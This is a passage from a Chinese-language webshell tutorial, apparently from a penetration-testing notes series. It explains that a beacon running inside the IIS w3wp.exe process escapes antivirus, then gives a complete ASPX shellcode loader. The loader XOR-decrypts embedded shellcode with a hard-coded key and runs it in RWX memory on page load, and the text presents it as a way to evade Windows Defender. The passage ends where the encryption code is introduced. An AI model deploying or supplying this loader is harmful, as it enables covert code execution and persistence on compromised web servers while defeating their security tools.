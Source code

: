 在beacon执行`getuid`命令也不会被拦截，简单总结下，此类技术之所以能躲避杀软的检测，是因为w3wp.exe进程本身是正常存在的，并且经常在正常操作中被使用，这也导致杀软不敢轻易就关掉此进程

![image-20230707223429319](Webshell专题/image-20230707223429319.png)



## 免杀处理

WindowsDefender会查杀aspx代码里的shellcode, 只需对shellcode进行异或加密就能绕过, 以下是修改后的aspx文件代码

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<%@ import Namespace="System.Text"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
    // 加密后的shellcode
    byte[] esc = new byte[928] { /* 省略 */ };
    
    // 解密密钥
    byte[] key = System.Text.Encoding.UTF8.GetBytes("henry666");

    // 解密shellcode
    for (int i = 0; i < esc.Length; i++)
    {
        esc[i] ^= key[i % key.Length];
    }
	
    IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
    Marshal.Copy(esc, 0, funcAddr, esc.Length);
    IntPtr hThread = IntPtr.Zero;
    uint threadId = 0;
    IntPtr pinfo = IntPtr.Zero;
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>

```



以下是xor加密shellcode的C#代码
